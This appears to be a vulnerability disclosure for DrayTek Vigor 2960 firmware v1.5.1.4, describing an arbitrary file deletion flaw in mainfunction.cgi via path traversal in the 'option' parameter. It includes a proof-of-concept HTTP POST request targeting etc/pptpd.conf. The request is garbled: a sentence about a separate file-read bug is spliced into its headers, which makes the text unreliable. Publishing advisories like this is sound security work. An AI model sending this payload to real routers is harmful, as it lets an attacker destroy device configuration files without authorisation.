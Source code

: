 # Draytek vigor 2960 v1.5.1.4 has arbitrary file deletion vulnerability

## OverView

Product: Draytek Vigor 2960 v1.5.1.4(the newest version)
Firmware: v1.5.1.4 https://fw.draytek.com.tw/Vigor2960/Firmware/v1.5.1.4/Vigor2960_v1.5.1.4.zip

## Detail  

function sub_1DB3C contains arbitrary file deletion, in file `mainfunction.cgi`

It doesn’t filter var opion , so we can use /../ to path traversal. As a result, it will delete the specific file.
You can see the screenshot. The file etc/pptpd.conf is disappear, after we send poc.

![image-20230225143920382](images/image-20230225143920382.png)

## poc 

```
POST /cgi-bin/mainfunction.cgi HTTP/1.1
Host: xxxxxxxx
Content-Length: 63
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
sub_1DF14 contains arbitrary file read vulnerability
It doesn’t filter the var option , so we can use /../ to read arbitrary file.
Accept: */*
Origin: xxxxxxx
Referer: xxxxxx
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: SESSION_ID_VIGOR=7:26EB81E4EA6DC603661320EBD1C938DC
Connection: close
action=dumpSyslog&option=/../etc/pptpd.conf&rtick=1663484341535
```

![image-20230225144024082](images/image-20230225144024082.png)

